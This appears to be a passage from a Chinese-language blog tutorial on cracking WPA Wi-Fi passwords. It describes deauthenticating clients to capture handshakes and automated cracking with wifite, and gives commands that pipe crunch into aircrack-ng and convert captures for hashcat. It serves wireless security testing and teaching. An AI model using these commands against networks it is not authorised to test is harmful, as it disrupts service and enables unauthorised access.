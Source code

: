 {% asset_img 16.png %}

关闭窗口后，会显示所有目标，按照开头标号选择，其中标号后面有\*的说明有客户端连接着。

{% asset_img 17.png %}

进入握手包抓取选项界面，选择攻击方式，与 DOS 一致。可直接选择 deauth aireplay attack，与 aireplay-ng 效果一致，断开目标网络，抓取 arp 握手包。可以填写要抓取的时间，默认 20s。

{% asset_img 18.png %}

若抓取成功，就会在主目录生成握手包抓包文件，然后同理使用 aircrack-ng 破解密码。

## 自动化破解工具 wifite

执行 wifite 后会自动开始扫描范围内的无线网络，ctrl+c 停止扫描

{% asset_img 19.png %}

选择一个目标后，开始自动检测

{% asset_img 20.png %}

然后直接就能看到破解的 wifi 密码

## hirte 工具伪造 AP

## 不指定字典破解密码

仍然是使用字典工具暴力破解握手包。

```
crunch  最小长度  最大长度  字符集  |  aircrack-ng  握手包  -e  ESSID  -w  -
示例：
crunch 8 8 12345678 | aircrack-ng ~/wpa-B4\:0B\:44\:93\:11\:C4-02.cap -e gty123 -w -
```

## hashcat 工具跑包

```
aircrack-ng  握手包  -J  输出hash文件
```

会生成一个.hccap 文件

```
aircrack-ng ~/wpa-B4\:0B\:44\:93\:11\:C4-02.cap -J ~/wpahash
```

需要 hashcat 工具，可--help 查看加密方式对应的号码

```
# hashcat --help | grep WPA
   2500 | WPA-EAPOL-PBKDF2      | Network Protocols
   2501 | WPA-EAPOL-PMK         | Network Protocols
  16800 | WPA-PMKID-PBKDF2      | Network Protocols
  16801 | WPA-PMKID-PMK         | Network Protocols
```
